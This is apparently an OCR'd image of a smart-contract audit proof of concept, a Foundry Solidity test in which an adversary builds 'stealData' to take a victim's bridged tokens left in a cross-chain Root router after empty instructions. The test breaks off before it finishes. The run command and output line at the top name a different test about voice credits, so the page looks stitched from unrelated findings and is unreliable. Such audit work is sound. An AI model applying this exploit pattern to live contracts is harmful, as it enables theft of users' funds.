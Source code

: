 * Execute with `forge test --match-test testWrongVoiceCreditsToRecipient -vv`

Output - the voice credits that are cast are 30 instead of 20
```solidity
function testEmptyInstructionsGrief() public {
        testAddLocalTokenArbitrum();

        // Innocent user
        address user = address(0x7777);

        // Get some avax underlying assets
        avaxMockAssetToken.mint(user, 100 ether);

        hevm.deal(user, 1 ether);

        DepositInput memory depositInput = DepositInput({
            hToken: avaxMockAssethToken,
            token: address(avaxMockAssetToken),
            amount: 100 ether,
            deposit: 100 ether
        });

        GasParams memory gasParams = GasParams({
            gasLimit: 0.5 ether,
            remoteBranchExecutionGas: 0.5 ether
        });

        // empty instructions for the router
        bytes memory packedData = abi.encodePacked("");

        // start prank from innocent user
        hevm.startPrank(user);

        // bridge out assets
        avaxMockAssetToken.approve(address(avaxPort), 100 ether);
        avaxMulticallBridgeAgent.callOutAndBridge{value: 1 ether}(
            payable(user), packedData, depositInput, gasParams
        );

        // Inspect the Root router balance
        console2.log("Root router balance before", ERC20hTokenRoot(newAvaxAssetGlobalAddress).balanceOf(address(rootMulticallRouter)));

        hevm.stopPrank();

        // Adversary user
        address adversary = address(0x1111);

        hevm.deal(adversary, 1 ether);

        Multicall2.Call[] memory calls = new Multicall2.Call[](1);

            // Mock Omnichain dApp call
            calls[0] = Multicall2.Call({
                target: newArbitrumAssetGlobalAddress,
                callData: abi.encodeWithSelector(bytes4(0xa9059cbb), mockApp, 0 ether)
        });

        // Specifies output params that correspond to the left assets in the Root Router

        OutputParams memory outputParams = OutputParams(adversary, newAvaxAssetGlobalAddress, 100 ether, 100 ether);       

        bytes memory stealData = abi.encode(calls, outputParams, avaxChainId);
```